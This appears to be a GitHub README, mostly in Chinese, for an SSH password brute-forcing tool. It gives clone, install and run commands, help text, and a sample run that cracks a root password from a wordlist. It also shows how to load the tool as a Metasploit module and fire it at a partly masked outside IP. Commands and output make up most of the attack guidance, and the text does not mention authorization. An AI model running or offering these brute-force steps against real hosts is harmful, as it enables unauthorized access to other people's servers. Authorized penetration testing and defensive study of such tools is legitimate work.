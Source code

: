 # SSH_Bruteforce

运行方式：终端下运行脚本，或在MSF中作为模块运行

### 获取项目

```Bash
git clone https://github.com/HZzz2/SSH_Bruteforce
```



#### 进入目录和安装第三方库

```Bash
cd SSH_Bruteforce
pip install paramiko
```

#### 获取帮助

```Bash
python SSH_Bruteforce.py -h
```

```text
usage: SSH_Bruteforce.py [-h] -H HOST -u USER -f FILE -t THREAD

exmple: python3 SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 10

optional arguments:

  -h, --help            show this help message and exit

  -H HOST, --host HOST  Hostname/IP       要爆破的主机IP

  -u USER, --user USER  Username          SSH用户名

  -f FILE, --file FILE  Password file     密码字典

  -t THREAD, --thread THREAD              线程数
    Thread number
```

### 1.Python脚本运行

#### 执行脚本

```Bash
python SSH_Bruteforce.py -H 192.168.1.180 -u root -f password.txt -t 9
```

```text
[-] 123221 is not correct
[-] 442342 is not correct
[-] 842482 is not correct
[-] 524253 is not correct
[-] 224224 is not correct
[-] 724731 is not correct
[+] 123456 is correct
SSH PassWord：123456
```

出现paramiko ssh banner错误不影响程序运行(线程过高的原因，推荐不高于10线程)

### 2.MSF模块运行

#### 将MSF模块复制到根目录下

```Bash
cp MyModules / -r
```

#### 给模块添加执行权限

```Bash
└─# chmod 755 /MyModules/modules/auxiliary/scanner/ssh/MSF_SSH_Bruteforce.py
```

#### 启动MSF

```Bash
msfdb run
```

#### 加载模块目录并使用

```Bash
msf6 > loadpath /MyModules/modules 
msf6 > use auxiliary/scanner/ssh/MSF_SSH_Bruteforce 

```

#### 设置相关参数

![](https://secure2.wostatic.cn/static/wA1FZ6QopMaBmytmgyKxAc/image.png)

```Bash
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > set rhosts 7.XX.XX.18
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > set user_name rXXt
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > set file /usr/share/commix/src/txt/passwords_john.txt
```

#### 运行模块

```Bash
msf6 auxiliary(scanner/ssh/MSF_SSH_Bruteforce) > exploit 
```

![](https://secure2.wostatic.cn/static/3ucRjDEUCpQyWJ7n6S8RD/image.png)


